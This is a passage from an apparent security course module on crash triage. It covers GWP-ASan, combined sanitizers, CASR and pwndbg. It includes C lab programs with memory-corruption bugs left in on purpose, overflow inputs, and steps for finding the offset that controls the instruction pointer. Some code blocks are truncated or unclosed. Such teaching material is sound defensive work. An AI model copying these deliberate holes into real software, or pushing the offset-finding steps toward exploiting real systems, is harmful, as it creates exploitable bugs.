- Crashes from MTE-enabled binaries require understanding tag mismatch errors
- Increasingly important as ARM64 adoption grows

**GWP-ASan (Google-Wide Performance ASan)**:

- Sampling-based allocator for production use
- Catches ~1% of heap bugs with minimal overhead
- Deployed in Chrome/Chromium and Android (platform- and version-specific), and available via allocator integrations (e.g., LLVM Scudo)
- Useful for analyzing crashes from production telemetry

**Frida for Dynamic Analysis**:

- Runtime instrumentation without recompilation
- Essential for closed-source binary crash analysis
- Can trace memory operations, hook functions, and dump state
- Covered in detail in later weeks for mobile/binary analysis

These tools become relevant when analyzing crashes from production systems, mobile platforms, or closed-source binaries where traditional ASAN isn't available.

#### GWP-ASan: Production Crash Analysis

GWP-ASan (originally "Google-Wide Performance ASan") is a sampling-based heap error detector designed for production use.

**Where GWP-ASan Runs**:

- **Chrome/Chromium**: Deployed in production (often via feature flags/field trials); used for crash telemetry
- **Android**: Integrated into the platform allocator on many devices; configuration is platform-specific
- **LLVM/Scudo allocator**: Includes GWP-ASan; the easiest way to try it locally is building with `-fsanitize=scudo`
- **Other allocators**: Some allocators implement guarded sampling / GWP-ASan-style mechanisms

**How GWP-ASan Works**:

```text
Traditional ASAN: Every allocation → Shadow memory → Every access checked
GWP-ASan:         Random sample → Guard pages → Only sampled allocs checked

┌─────────────────────────────────────────────────────────────┐
│ Normal Allocations (99.9%)        │ GWP-ASan Sampled (0.1%) │
│ ┌─────┬─────┬─────┬─────┐         │ ┌─────┬─────┬─────┐     │
│ │alloc│alloc│alloc│alloc│         │ │GUARD│alloc│GUARD│     │
│ └─────┴─────┴─────┴─────┘         │ └─────┴─────┴─────┘     │
│ No overhead                       │ Guard pages catch OOB   │
└─────────────────────────────────────────────────────────────┘
```

**Analyzing GWP-ASan Crash Reports**:

GWP-ASan reports look similar to ASAN but with sampling context:

```text
*** GWP-ASan detected a memory error ***
Use-after-free at 0x7f1234567890

Allocation:
  #0 0x7f111 in malloc
  #1 0x7f222 in create_object (object.c:45)
  #2 0x7f333 in main (main.c:123)

Deallocation:
  #0 0x7f444 in free
  #1 0x7f555 in destroy_object (object.c:89)
  #2 0x7f666 in cleanup (main.c:150)

Use-after-free access:
  #0 0x7f777 in use_object (object.c:67)
  #1 0x7f888 in process (main.c:175)

GWP-ASan sampling rate: 1/1000 allocations
```

**Enabling GWP-ASan**:

```bash

# The most practical way to experiment locally is via LLVM Scudo:
clang -fsanitize=scudo -g program.c -o program_scudo

# SampleRate=1 means "always sample" (development only).
export SCUDO_OPTIONS=GWP_ASAN_SampleRate=1
./program_scudo < crash_input

# https://chromium.googlesource.com/chromium/src/+/HEAD/docs/gwp_asan.md
```

**Reproducing GWP-ASan Crashes**:

GWP-ASan crashes are non-deterministic (sampled). To reproduce:

```bash

# Option 1: Use full ASAN to reproduce deterministically
clang -fsanitize=address -g program.c -o program_asan
./program_asan < crash_input

# Option 2: If you can rebuild with Scudo, reproduce under its GWP-ASan integration
clang -fsanitize=scudo -g program.c -o program_scudo
SCUDO_OPTIONS=GWP_ASAN_SampleRate=1 ./program_scudo < crash_input

# Option 3: If you only have a production binary, run repeatedly until it gets sampled
for i in {1..1000}; do
    ./program < crash_input 2>&1 | grep -q "GWP-ASan" && break
done
```

**GWP-ASan vs ASAN for Crash Analysis**:

| Aspect              | GWP-ASan       | ASAN                |
| ------------------- | -------------- | ------------------- |
| **Overhead**        | ~0.1%          | ~200%               |
| **Memory**          | Minimal        | 2-3x                |
| **Detection rate**  | ~1% of bugs    | 100% of bugs        |
| **Use case**        | Production     | Development/fuzzing |
| **Reproducibility** | Low (sampling) | 100%                |
| **Deployment**      | Safe for prod  | Never in prod       |

**Workflow: GWP-ASan Crash → Full Analysis**:

```bash

# May need to create targeted test case based on stacks
```

**Key Points for GWP-ASan Analysis**:

1. **Sampling means incomplete view**: The bug exists, but you only caught it by luck
2. **Allocation context is crucial**: The allocation stack tells you what was sampled
3. **Use full ASAN to reproduce**: Convert GWP-ASan report to ASAN-reproducible test
4. **Production-only bugs are real**: Some bugs only manifest under real workloads
5. **Check telemetry frequency**: Multiple GWP-ASan hits = higher severity bug

# Compile with recommended combination
clang -fsanitize=address,undefined -g -O0 -fno-omit-frame-pointer -D_FORTIFY_SOURCE=0 target.c -o target_asan_ubsan

# Fuzz with AFL++
afl-fuzz -i seeds/ -o out/ -m none -- ./target_asan_ubsan @@
```

**Step 2: Periodic MSAN Check**:

```bash

# Compile with MSAN (requires instrumented libc++)
clang++-19 -fsanitize=memory -stdlib=libc++ -fPIE -pie -g -O0 -fno-omit-frame-pointer target.c -o target_msan

# Run corpus through MSAN build
for testcase in out/queue/*; do
    ./target_msan < $testcase
done
```

**Step 3: Multithreaded Target TSAN Check**:

```bash

# Compile with TSAN (use gcc or clang)
gcc -fsanitize=thread -g -O0 -fno-omit-frame-pointer target.c -o target_tsan -lpthread

# Run with diverse inputs
for testcase in out/queue/*; do
    ./target_tsan < $testcase
done
```

**Sanitizer Selection Guide**:

```text
┌─────────────────────────────────────────────────────────────────────┐
│ What are you testing?                                               │
└─────────────────────────────────────────────────────────────────────┘
         │
         ├─ Single-threaded parser/server
         │  └─> ASAN + UBSAN (default choice)
         │      clang -fsanitize=address,undefined ...
         │
         ├─ Multithreaded application
         │  └─> Separate runs: ASAN+UBSAN, then TSAN
         │      gcc -fsanitize=thread ... -lpthread
         │
         ├─ Kernel/crypto code with info leaks
         │  └─> MSAN (separate run, requires instrumented libc++)
         │      clang++ -fsanitize=memory -stdlib=libc++ ...
         │
         └─ Arithmetic-heavy code
            └─> UBSAN (minimal overhead, always enable)
                clang -fsanitize=undefined ...
```

### Example: Combining Sanitizers

**Scenario**: Fuzzing a multithreaded HTTP server

**Phase 1**: ASAN + UBSAN fuzzing (24 hours)

```bash
afl-fuzz -i seeds/ -o findings_asan/ -m none -- ./httpd_asan_ubsan @@

# Run interesting inputs through MSAN
for crash in findings_asan/crashes/*; do
    ./httpd_msan < $crash
done

# Run corpus through TSAN
for input in findings_asan/queue/*; do
    ./httpd_tsan < $input
done

### Practical Exercise

**Task**: Identify and classify 10 ASAN-detected bugs

If you built and fuzzed real targets in Week 2 (for example, libWebP, GStreamer, or your own small parser/HTTP server), consider recompiling **one of those exact targets** with ASAN and running this workflow on the crashes you already found. The synthetic exercises below are fine to start with, but applying the same process to a familiar Week 2 target will make the connection between fuzzing and crash analysis very concrete.

**Provided Test Programs** (compile each with ASAN):

1. `heap_overflow.c` - Heap buffer overflow
2. `stack_overflow.c` - Stack buffer overflow
3. `uaf_read.c` - Use-after-free (read)
4. `uaf_write.c` - Use-after-free (write)
5. `double_free.c` - Double-free
6. `memory_leak.c` - Memory leak
7. `global_overflow.c` - Global buffer overflow
8. `stack_use_after_return.c` - Stack use-after-return
9. `initialization_order.c` - Initialization order bug
10. `alloc_dealloc_mismatch.c` - new/delete mismatch

**For Each Program**:

1. **Compile with ASAN**:

   ```bash
   clang -g -O1 -fsanitize=address -fno-omit-frame-pointer program.c -o program_asan
   ```

2. **Run and Capture Output**:

   ```bash
   ./program_asan 2>&1 | tee program_output.txt
   ```

3. **Analyze Report**:
   - What type of error was detected?
   - What line triggered it?
   - What was the allocation/free stack trace?
   - How many bytes were involved?

4. **Classify Exploitability**:
   - Read vs Write access?
   - Controlled by attacker input?
   - How many bytes overflow?
   - What mitigations apply?

5. **Document**:

```markdown

## Bug: heap_overflow.c

- **ASAN Type**: heap-buffer-overflow
- **Operation**: WRITE of size 18
- **Overflow**: 8 bytes past 10-byte allocation
- **Exploitability**: High - Write overflow with large controlled data
```

**Success Criteria**:

- All 10 programs analyzed
- ASAN error types correctly identified
- Stack traces interpreted
- Exploitability assessed
- Clear documentation of findings

### Key Takeaways

1. **ASAN is powerful**: Catches bugs at source, not just symptoms
2. **Detailed reports**: Allocation and free stacks make root cause obvious
3. **Multiple error types**: Different bugs have different ASAN signatures
4. **Essential for fuzzing**: Turns crashes into actionable vulnerability reports
5. **Combine with debugging**: ASAN finds bug, debugger analyzes exploit primitive

### Discussion Questions

1. Why does ASAN have lower false positive rate than traditional memory checkers like Valgrind?
2. How does the quarantine mechanism help catch use-after-free bugs?
3. When would you use MSAN vs ASAN vs TSAN for a multi-threaded program with suspected memory issues?
4. Why can't ASAN and MSAN be combined in the same build, and how do you work around this limitation?

## Day 3: Exploitability Assessment with Automated Tools

- **Goal**: Use automated tools to assess crash exploitability and prioritize vulnerabilities.
- **Activities**:
  - _Reading_:
    - [CASR - Crash Analysis and Severity Reporter](https://github.com/ispras/casr)
  - _Online Resources_:
    - [Crash Triage Best Practices](https://github.com/google/fuzzing/blob/master/docs/good-fuzz-target.md)
    - [AFL++ Crash Triage](https://aflplus.plus/docs/fuzzing_in_depth/#4-triaging-crashes)
  - _Tool Setup_:
    - CASR (Rust-based crash analyzer - primary tool)
    - AFL++ utilities (afl-tmin, afl-cmin)
  - _Exercise_:
    - Triage 20 AFL++ crashes
    - Bucket by exploitability and uniqueness

### Quick Triage Checklist

Before diving into detailed analysis, run through this checklist for every crash:

```text

## What mitigations are active?

- Stack canary: [ ] Yes [ ] No
- NX/DEP: [ ] Yes [ ] No
- ASLR/PIE: [ ] Yes [ ] No
- RELRO: [ ] None [ ] Partial [ ] Full
- CFG/CFI: [ ] Yes [ ] No
- CET: [ ] Yes [ ] No

## Initial classification

- Type: [ ] Stack overflow [ ] Heap overflow [ ] UAF [ ] Format string [ ] Other
- Severity: [ ] EXPLOITABLE [ ] PROBABLY_EXPLOITABLE [ ] NOT_EXPLOITABLE
```

#### Checking Binary Mitigations First

**Always check mitigations before deep analysis** - they determine exploitability:

**Using checksec (pwntools)**:

```bash

# pip install pwntools

checksec --file=./vuln_no_protect
#[*] '/home/dev/crash_analysis_lab/vuln_no_protect'

# GNU_PROPERTY_X86_FEATURE_1_IBT (Indirect Branch Tracking)
```

**Checking System-Wide Protections**:

```bash

### Enhanced GDB with Pwndbg

- Modern crash analysis on Linux uses enhanced GDB plugins that provide significantly better crash context than vanilla GDB.
- **Pwndbg** is the current standard for exploit development and crash analysis, replacing older tools like the now-unmaintained GDB exploitable plugin.

**What Pwndbg Provides**:

- Automatic context display on every stop (registers, stack, code, backtrace)
- Heap visualization and analysis (`heap`, `bins`, `arena`)
- Memory search and pattern finding (`search`, `telescope`)
- Exploit development helpers (`cyclic`, `rop`, `checksec`)
- Enhanced memory display with smart dereferencing

**Crash Analysis with Pwndbg**:

```bash

# Navigate to lab directory and load crashing program (using Day 1 binaries)
cd ~/crash_analysis_lab
gdb ./vuln_no_protect

# Run with crashing input (test case 1 = stack overflow)
pwndbg> run 1 $(python3 -c "print('A'*200)")

# Pwndbg automatically shows context on crash:
#LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
#──────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────────────────────────────────────────

# Memory examination
pwndbg> telescope $rsp 20        # Smart stack display (shows 20 qwords with dereferencing)
pwndbg> hexdump $rdi 64          # Hex dump memory (use register containing valid pointer)
pwndbg> vmmap                     # Memory map with permissions (STACK/HEAP/CODE highlighting)

# Heap analysis (critical for heap bugs)
pwndbg> heap                      # Heap overview (shows allocated chunks with addr/size)
pwndbg> bins                      # Show all bin states (tcache, fastbins, unsorted, small, large)
pwndbg> arena                     # Display main arena (top chunk, bins, fastbinsY)

# Search for input patterns (finds pattern across all memory regions)
pwndbg> search "AAAA"            # Find pattern in memory (shows [heap], [stack], libc, etc.)
pwndbg> search -t qword 0x4141414141414141  # Search for specific qword value

# Exploit helpers - finding offset to control RIP
pwndbg> run 1 $(cyclic 200)       # Run with de Bruijn pattern

# After crash, RSP points to pattern (e.g., "saaataaa...")
pwndbg> x/s $rsp                  # View pattern string at RSP
pwndbg> cyclic -l saaa -n 4       # Find offset using first 4 chars → offset 72

# Context control
pwndbg> context                   # Redisplay context
pwndbg> context reg stack code   # Custom context
```

**Automated Batch Analysis with Pwndbg**:

```bash
#!/bin/bash

# Run from ~/crash_analysis_lab directory

cd ~/crash_analysis_lab

for crash in crashes/*; do
    echo "=== Analyzing $(basename $crash) ==="
    gdb -batch \
        -ex "run < $crash" \
        -ex "bt" \
        -ex "info registers" \
        -ex "checksec" \
        -ex "quit" \
        ./vuln_no_protect 2>&1 | tee analysis_$(basename $crash).txt
done
```

**Exploitability Assessment with Pwndbg**:

```bash

# At crash, assess exploitability (using vuln_no_protect from Day 1):
cd ~/crash_analysis_lab
gdb ./vuln_no_protect
pwndbg> run 1 $(python3 -c "print('A'*200)")

### CASR - Modern Crash Analyzer

**What Is CASR?**:

CASR (Crash Analysis and Severity Reporter) is a modern, Rust-based crash analysis framework developed by ISP RAS.

**Key Features (v2.13+ / Latest: v2.14)**:

- **Multi-language support**: C/C++, Rust, Go, Python, Java, JavaScript, C#
- **Multiple analysis backends**: ASAN, UBSAN, TSAN, MSAN, GDB, core dumps
- **Fuzzer integration**: AFL++, libFuzzer, Atheris (Python), honggfuzz
- **CI/CD ready**: SARIF reports, DefectDojo integration, GitHub Actions support
- **23+ severity classes**: Precise exploitability assessment with modern patterns
- **Clustering**: Automatic deduplication using stack trace similarity
- **TUI interface**: Interactive crash browsing with filtering
- **LibAFL integration**: Native support for Rust-based fuzzing (v2.14+)

**Installation**:

```bash

# Or from source for latest features
git clone https://github.com/ispras/casr
cd casr
cargo build --release
sudo cp target/release/casr-* /usr/local/bin/

# Verify installation
casr-san --version
casr-gdb --version
casr-cluster --version
```

> [!IMPORTANT]
> **CASR severity is heuristic-based**: CASR is a triage assistant, not an oracle. Its classifications (EXPLOITABLE, PROBABLY_EXPLOITABLE, NOT_EXPLOITABLE) are based on crash patterns and may not reflect actual exploitability. Always perform manual analysis on high-priority crashes. For example:
>
> - A "NOT_EXPLOITABLE" null deref might become exploitable with heap manipulation
> - An "EXPLOITABLE" crash might be blocked by mitigations CASR doesn't detect
> - Use CASR for prioritization, not final verdicts

#### CASR Tool Suite

**casr-san**: Analyze sanitizer output (ASAN/UBSAN/MSAN/TSAN)

```bash

# Compile with ASAN (if not already done in Day 1)
clang -g -O1 -fsanitize=address -fno-omit-frame-pointer src/vulnerable_suite.c -o vuln_asan

# Analyze crash (test case 3 = UAF)
casr-san -o casrep/uaf.casrep -- ./vuln_asan 3

# Analyze stack overflow (test case 1 - needs ~100+ chars to overflow 64-byte buffer)
casr-san -o casrep/stack_overflow.casrep -- ./vuln_asan 1 $(python3 -c "print('A'*200)")

# Analyze heap overflow (test case 2)
casr-san -o casrep/heap_overflow.casrep -- ./vuln_asan 2 $(python3 -c "print('A'*100)")

# Analyze double free (test case 4)
casr-san -o casrep/double_free.casrep -- ./vuln_asan 4

# Analyze NULL dereference (test case 5 with trigger=0)
casr-san -o casrep/null_deref.casrep -- ./vuln_asan 5 0
```

**casr-gdb**: Analyze crashes via GDB (no sanitizer needed)

```bash

# Stack overflow (test case 1) - crashes due to return address overwrite
casr-gdb -o casrep/stack_overflow_gdb.casrep -- ./vuln_no_protect 1 $(python3 -c "print('A'*200)")

# Double free (test case 4) - crashes due to glibc allocator detection
casr-gdb -o casrep/double_free_gdb.casrep -- ./vuln_no_protect 4

# NULL dereference (test case 5) - crashes on NULL pointer access
casr-gdb -o casrep/null_deref_gdb.casrep -- ./vuln_no_protect 5 0

# With custom GDB path
casr-gdb --gdb-path /usr/local/bin/gdb -o casrep/crash.casrep -- ./vuln_no_protect 1 $(python3 -c "print('A'*200)")
```

**casr-core**: Analyze core dumps

```bash

# Generate crashes for different test cases
./vuln_no_protect 1 $(python3 -c "print('A'*200)")  # Stack overflow
./vuln_no_protect 3                                  # Use-after-free
./vuln_no_protect 4                                  # Double free
./vuln_no_protect 5 0                                # NULL dereference

# On systemd systems, extract core first using coredumpctl(you might to look at cwd or /var/crash as well):
coredumpctl dump -o cores/vuln_no_protect.core
casr-core -o casrep/crash.casrep -e ./vuln_no_protect -c cores/vuln_no_protect.core

# Batch analyze multiple cores (after extracting with coredumpctl)
for core in cores/*; do
    casr-core -o casrep/$(basename $core).casrep -e ./vuln_no_protect -c $core
done
```

**casr-cluster**: Deduplicate and cluster crashes

```bash

# Cluster all reports from casrep/ directory by call stack and crash type
casr-cluster -c casrep/ clustered/

# Leave only reports with unique crash lines in each cluster
casr-cluster -c casrep/ clustered/ --unique-crashline

# Compare two crash sets (find new unique crashes)
#casr-cluster --diff new_crashes/ old_crashes/ diff_output/

# Parallel processing
#casr-cluster -c casrep/ clustered/ -j 8
```

**casr-cli**: TUI for browsing crash reports

```bash

# View mode options: tree, slider, stdout
casr-cli -v tree casrep/
casr-cli -v slider casrep/
casr-cli -v stdout casrep/

# SARIF with source root for proper file paths
casr-cli --sarif output.sarif --source-root /home/dev/crash_analysis_lab casrep/

# Strip path prefix from crash paths in statistics
casr-cli --strip-path /home/dev/crash_analysis_lab/ casrep/
```

**AFL++ Fuzzing to CASR Triage**

```bash
cd ~/crash_analysis_lab/

# 1. Create a simple vulnerable target (heap overflow)
cat > src/fuzz_target.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

volatile char sink;  // Prevent optimization

void process_input(char *data, size_t len) {
    char buffer[64];

    // Vulnerability 1: Stack buffer overflow
    if (len > 0 && data[0] == 'A') {
        memcpy(buffer, data, len);  // No bounds check
        sink = buffer[0];           // Force use
    }

    // Vulnerability 2: Heap overflow
    if (len > 1 && data[0] == 'B') {
        char *heap = malloc(32);
        memcpy(heap, data, len);    // Overflow if len > 32
        sink = heap[0];             // Force use before free
        free(heap);
    }

    // Vulnerability 3: Use-after-free
    if (len > 1 && data[0] == 'C') {
        char *ptr = malloc(16);
        free(ptr);
        sink = ptr[0];              // UAF read (more reliable than write)
    }

    // Vulnerability 4: Double free
    if (len > 1 && data[0] == 'D') {
        char *ptr = malloc(16);
        free(ptr);
        free(ptr);                  // Double free
    }
}

int main(int argc, char **argv) {
    if (argc < 2) return 1;

    FILE *f = fopen(argv[1], "rb");
    if (!f) return 1;

    fseek(f, 0, SEEK_END);
    size_t len = ftell(f);
    fseek(f, 0, SEEK_SET);

    char *data = malloc(len + 1);
    fread(data, 1, len, f);
    fclose(f);

    process_input(data, len);

    free(data);
    return 0;
}
EOF

# 2. Build with AFL++ instrumentation and ASan
mkdir -p bin
export CC=afl-clang-fast
export AFL_USE_ASAN=1
$CC -g -O0 -fno-omit-frame-pointer src/fuzz_target.c -o bin/fuzz_target_asan

# Build without sanitizer for GDB analysis comparison
$CC -g src/fuzz_target.c -o bin/fuzz_target_plain

# 3. Create seed corpus (seeds that will trigger crashes)
mkdir -p afl_input
python3 -c "import sys; sys.stdout.buffer.write(b'A' + b'X'*100)" > afl_input/seed_stack
python3 -c "import sys; sys.stdout.buffer.write(b'B' + b'X'*50)" > afl_input/seed_heap
python3 -c "import sys; sys.stdout.buffer.write(b'CX')" > afl_input/seed_uaf
python3 -c "import sys; sys.stdout.buffer.write(b'DX')" > afl_input/seed_double
echo -n "test" > afl_input/seed_normal

# Use tmux or screen for longer sessions
timeout 300 afl-fuzz -i afl_input -o afl_output -m none -- ./bin/fuzz_target_asan @@

# 5. Triage crashes with casr-afl
casr-afl -i afl_output/default -o afl_casrep -t 10 -j 4 -f -- ./bin/fuzz_target_asan @@

# 8. Optional: Add GDB analysis for non-sanitizer crashes
casr-afl -i afl_output/default -o afl_casrep_gdb -f -- ./bin/fuzz_target_plain @@
```

#### Why Timeouts Matter

- **Denial of Service**: A single malicious input causing 100% CPU for hours
- **Algorithmic Complexity**: O(n²) or O(n!) behavior with crafted input
- **Deadlocks**: Multithreaded code stuck waiting forever
- **Resource Exhaustion**: Memory growth without bounds

#### Creating a Hang-Prone Test Program

First, let's create a program that can hang to practice these techniques:

```c
// ~/crash_analysis_lab/src/hang_test.c
// ~/crash_analysis_lab/src/hang_test.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// Simulates algorithmic complexity attack
void slow_parse(char *input, int len) {
    // O(n²) behavior - gets very slow with large input
    for (int i = 0; i < len; i++) {
        for (int j = 0; j < len; j++) {
            if (input[i] == input[j]) {
                usleep(100);  // Simulate work
            }
        }
    }
}

// Multiple infinite loop patterns based on input
void process_command(char *cmd) {
    if (strncmp(cmd, "LOOPA", 5) == 0) {
        printf("[*] Entering loop pattern A...\n");
        while(1) { }  // Pattern A
    }
    if (strncmp(cmd, "LOOPB", 5) == 0) {
        printf("[*] Entering loop pattern B...\n");
        for(;;) { }   // Pattern B - different stack location
    }
    if (strncmp(cmd, "LOOPC", 5) == 0) {
        printf("[*] Entering loop pattern C...\n");
        volatile int spin = 1;
        while(spin) { }  // Pattern C
    }
    if (strncmp(cmd, "LOOP", 4) == 0) {
        printf("[*] Entering default loop...\n");
        while(1) { }  // Default pattern
    }
    printf("[*] Command processed: %s\n", cmd);
}

// Recursive function that can stack overflow or hang
void recursive_parse(char *data, int depth) {
    if (depth > 10000) return;  // Safety limit
    if (data[0] == 'R') {
        recursive_parse(data, depth + 1);
    }
}

int main(int argc, char **argv) {
    char buffer[1024];

    if (argc < 2) {
        printf("Usage: %s <1|2|3> [input]\n", argv[0]);
        printf("  1 <input>  - Slow O(n²) parsing\n");
        printf("  2          - Infinite loop (reads from stdin)\n");
        printf("               LOOPA/LOOPB/LOOPC for different patterns\n");
        printf("  3 <input>  - Deep recursion\n");
        return 1;
    }

    int test = atoi(argv[1]);

    switch(test) {
        case 1:
            if (argc < 3) return 1;
            slow_parse(argv[2], strlen(argv[2]));
            break;
        case 2:
            if (fgets(buffer, sizeof(buffer), stdin)) {
                process_command(buffer);
            }
            break;
        case 3:
            if (argc < 3) return 1;
            recursive_parse(argv[2], 0);
            break;
    }

    printf("[*] Done\n");
    return 0;
}
```

**Build the hang test program**:

```bash
cd ~/crash_analysis_lab

# Build without optimizations for clear stack traces
gcc -g -O0 src/hang_test.c -o hang_test

# Build with ASAN for timeout analysis
gcc -g -O0 -fsanitize=address -fno-omit-frame-pointer src/hang_test.c -o hang_test_asan
```

# Run with timeout - program hangs and gets killed
timeout --signal=SIGABRT 10s ./hang_test 2 < crashes/hang_input.txt

# Attach GDB and get backtrace:
sudo gdb -batch -p $HANG_PID \
    -ex "bt" \
    -ex "info registers" \
    -ex "x/5i \$pc" \
    -ex "detach" 2>&1 | tee crashes/hang_analysis.txt

# Example output:
#process_command (cmd=0x7fff499d9fd0 "LOOP\n") at src/hang_test.c:36
#36              while(1) { }  // Default pattern
#0  process_command (cmd=0x7fff499d9fd0 "LOOP\n") at src/hang_test.c:36
#1  0x000064fc7f622532 in main (argc=2, argv=0x7fff499da508) at src/hang_test.c:70

#### CASR Classification for Hangs

CASR is designed for crash analysis, not hang detection. It requires the program to actually crash (receive a signal like SIGSEGV or SIGABRT from within the program):

```bash
cd ~/crash_analysis_lab
mkdir -p casrep

# This does NOT work - timeout kills the process externally, CASR sees "no crash"
casr-san -o casrep/hang.casrep -- timeout 10s ./hang_test_asan 2 < crashes/hang_input.txt

# CASR is best suited for actual crashes, not timeouts
```

**Key insight**: Hangs and timeouts are different from crashes:

- **Crash**: Program receives a signal (SIGSEGV, SIGABRT) due to internal error
- **Hang**: Program runs forever, must be killed externally
- **CASR**: Only analyzes crashes, not externally-killed processes

For hang analysis, use the GDB attach method shown in Method 1 above.

**When to use CASR**: Use it for actual crashes from the Day 1-2 test binaries:

```bash
cd ~/crash_analysis_lab

# CASR works great for actual crashes
casr-san -o casrep/stack_overflow.casrep -- ./vuln_asan 1 $(python3 -c "print('A'*200)")
cat casrep/stack_overflow.casrep | jq '.CrashSeverity'

#### Simple Hang Bucketing

When you have many timeouts from fuzzing, bucket by stack signature:

```bash
#!/bin/bash

# ~/crash_analysis_lab/bucket_hangs.sh

cd ~/crash_analysis_lab
mkdir -p hang_buckets

for hang in crashes/hang_*.txt; do
    [ -f "$hang" ] || continue

    # Start the program in background
    ./hang_test 2 < "$hang" &
    pid=$!

    sleep 0.3

    # Get stack, strip addresses, keep only function names and line info
    sig=$(sudo gdb -batch -p $pid -ex "bt 5" 2>&1 | \
          grep "^#" | \
          sed 's/0x[0-9a-f]*//g' | \
          sed 's/cmd=[^ ]*/cmd=/g' | \
          md5sum | cut -d' ' -f1)

    kill -9 $pid 2>/dev/null
    wait $pid 2>/dev/null

    mkdir -p hang_buckets/$sig
    cp "$hang" hang_buckets/$sig/
done

echo "Unique hang patterns:"
ls -1 hang_buckets/ | wc -l
```

**Test the bucketing script**:

```bash
cd ~/crash_analysis_lab

# Create multiple hang inputs
echo "LOOPA" > crashes/hang_a1.txt
echo "LOOPA" > crashes/hang_a2.txt
echo "LOOPB" > crashes/hang_b1.txt
echo "LOOPC" > crashes/hang_c1.txt

#### Infinite Loop Detection Patterns

When analyzing hangs interactively, GDB helps identify the specific loop pattern. The key is distinguishing between a program **waiting for input** (blocked in `read()`) versus an **actual infinite loop** (spinning CPU).

**Common Mistake: Blocking vs Spinning**

```bash
cd ~/crash_analysis_lab

# WRONG: Running without input - program blocks waiting for stdin
gdb ./hang_test
(gdb) run 2

# This is NOT a hang - it's waiting for you to type something
```

**Correct Approach: Provide Input First**

```bash
cd ~/crash_analysis_lab

# Method 1: Use a pipe to provide input, then attach
echo "LOOP" | ./hang_test 2 &
HANG_PID=$!
sleep 0.5  # Let it enter the loop

# First ensure the input file exists (created earlier in this section):
echo "LOOP" > crashes/hang_input.txt

gdb ./hang_test
(gdb) run 2 < crashes/hang_input.txt

# 2. True infinite loop (BUG - spinning CPU)
echo "LOOP" | ./hang_test 2 &
PID=$!; sleep 1
sudo gdb -batch -p $PID -ex "info proc status" 2>&1 | grep -E "utime|stime"

# Thread 2: __lll_lock_wait()  <- also waiting = DEADLOCK
```

**Testing Different Loop Patterns**:

```bash
cd ~/crash_analysis_lab

# This tests whether your deduplication correctly groups them

for pattern in LOOPA LOOPB LOOPC LOOP; do
    echo "=== Testing $pattern ==="
    echo "$pattern" | ./hang_test 2 &
    PID=$!
    sleep 0.3

    # Get the crash location
    sudo gdb -batch -p $PID -ex "bt 2" 2>&1 | grep "process_command"

    kill $PID 2>/dev/null
    wait $PID 2>/dev/null
done

#   process_command at src/hang_test.c:36  (LOOP)
```

**Identifying Algorithmic Hangs vs Infinite Loops**:

```bash
cd ~/crash_analysis_lab

# Algorithmic hang (O(n²) with usleep - gets very slow with large input)
time timeout 5s ./hang_test 1 $(python3 -c "print('A'*100)")

# user    0m0.05s   <- Low CPU (usleep dominates)

time timeout 30s ./hang_test 1 $(python3 -c "print('A'*500)")

# True infinite loop (never completes, high CPU)
echo "LOOP" | timeout 5s ./hang_test 2

# Test O(n²) behavior with increasing input sizes
echo "Testing algorithmic complexity..."

for size in 100 200 400 800; do
    input=$(python3 -c "print('A'*$size)")
    echo -n "Size $size: "
    time timeout 30s ./hang_test 1 "$input" 2>/dev/null
done

### CASR Severity Classes

CASR classifies crashes into three main categories with 23 specific types:

**EXPLOITABLE (High Severity)**:

1. **SegFaultOnPc**: Instruction pointer controlled by attacker

   ```json
   "ShortDescription": "SegFaultOnPc"
   // PC/IP register contains attacker-controlled value
   ```

2. **ReturnAv**: Return address overwrite

   ```json
   "ShortDescription": "ReturnAv"
   // Return address corrupted, likely stack overflow
   ```

3. **BranchAv**: Branch target controlled

   ```json
   "ShortDescription": "BranchAv"
   // Indirect jump/call to attacker-controlled address
   ```

4. **CallAv**: Call instruction with controlled target

   ```json
   "ShortDescription": "CallAv"
   // Function pointer or vtable corruption
   ```

5. **DestAv**: Write-what-where primitive

   ```json
   "ShortDescription": "DestAv"
   // Can write to arbitrary address
   ```

6. **heap-buffer-overflow-write**: Heap write overflow
   ```json
   "ShortDescription": "heap-buffer-overflow-write"
   // Writing past heap allocation boundary
   ```

**PROBABLY_EXPLOITABLE (Medium Severity)**:

7. **SourceAv**: Read from controlled address

   ```json
   "ShortDescription": "SourceAv"
   // Information leak primitive
   ```

8. **BadInstruction**: Invalid opcode execution

   ```json
   "ShortDescription": "BadInstruction"
   // May indicate code corruption
   ```

9. **heap-use-after-free-write**: UAF write access

   ```json
   "ShortDescription": "heap-use-after-free-write"
   // Write to freed memory
   ```

10. **double-free**: Double free corruption

    ```json
    "ShortDescription": "double-free"
    // Heap metadata corruption
    ```

11. **stack-buffer-overflow**: Stack corruption

    ```json
    "ShortDescription": "stack-buffer-overflow"
    // Stack overflow (may be mitigated by canaries)
    ```

12. **heap-buffer-overflow**: Heap read overflow
    ```json
    "ShortDescription": "heap-buffer-overflow"
    // Reading past allocation (info leak)
    ```

**NOT_EXPLOITABLE (Low Severity)**:

13. **AbortSignal**: Intentional abort

    ```json
    "ShortDescription": "AbortSignal"
    // assert() or abort() triggered
    ```

14. **null-deref**: NULL pointer dereference

    ```json
    "ShortDescription": "null-deref"
    // Accessing NULL (usually DoS only)
    ```

15. **SafeFunctionCheck**: Security check triggered
    ```json
    "ShortDescription": "SafeFunctionCheck"
    // Stack canary, vtable guard, etc.
    ```

**Additional Severity Types**:

- **stack-use-after-return**: Stack address used after return
- **stack-use-after-scope**: Stack variable used after scope
- **heap-use-after-free**: UAF read
- **global-buffer-overflow**: Global array overflow
- **container-overflow**: STL container bounds violation
- **initialization-order-fiasco**: Static init race
- **alloc-dealloc-mismatch**: new/delete mismatch
- **signal**: Uncaught signal (SIGABRT, SIGFPE, etc.)

#### Example CASR Report

Here's an actual CASR report from analyzing a stack buffer overflow:

```json
{
  "Date": "2026-01-08T11:24:48.290204+00:00",
  "Uname": "Linux os 6.8.0-90-generic #91-Ubuntu SMP ...",
  "OS": "Ubuntu",
  "OSRelease": "24.04",
  "Architecture": "amd64",
  "ExecutablePath": "./vuln_asan",
  "ProcCmdline": "./vuln_asan 1 AAAAAAAAAA...(200 chars)",
  "CrashSeverity": {
    "Type": "EXPLOITABLE",
